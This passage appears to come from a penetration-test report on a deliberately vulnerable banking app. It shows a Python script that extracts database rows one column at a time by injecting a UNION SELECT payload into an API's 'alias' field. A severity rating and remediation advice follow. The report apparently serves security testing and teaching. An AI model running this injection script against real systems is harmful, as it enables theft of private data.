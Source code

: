 ```python
    exit()

print(f"[✔] Total columns found: {len(columns)}\n")

# === Step 2: Dump row data column-by-column ===
print(f"[*] Extracting row-wise data from '{target_table}'...\n")
row_offset = 0
row_file = open(output_file, "w")

while True:
    row_data = []

    for col in columns:
        injected_alias = f"' UNION (SELECT {col}, NULL, NULL, NULL FROM {target_table} LIMIT 1 OFFSET {row_offset}) UNION SELECT NULL, NULL, NULL, NULL FROM beneficiary_details WHERE '1'='"
        payload["requestBody"]["data"]["alias"] = injected_alias
        res = requests.post(url, headers=headers, json=payload)

        try:
            result = res.json()
        except:
            print(f"[!] JSON error at row offset {row_offset}, column '{col}'")
            break

        if result.get("status") == "Failed":
            print(f"[-] No more data at offset {row_offset}")
            row_file.close()
            print(f"\n[✔] Extraction complete. Saved to: {output_file}")
            exit()

        value = result.get("data", {}).get("alias", "")
        row_data.append(value)

    print(f"[+] Row {row_offset}: {row_data}")
    row_file.write(",".join(row_data) + "\n")
    row_offset += 1
```

![](/Screenshots/unsafebank//pent/select.png)

**Vulnerability Score:**  
This is a **Critical vulnerability (CVSS ~9.0)** due to unauthenticated remote SQL injection allowing data extraction and potential full database compromise.

**Remedy:**  
Use parameterized queries (prepared statements) to prevent injection. Avoid directly inserting user input into SQL statements. Implement strict input validation and error handling to prevent detailed error disclosure. Limit database user privileges and monitor for suspicious query activity.

---
### 9. Insecure Direct Object Reference (IDOR)
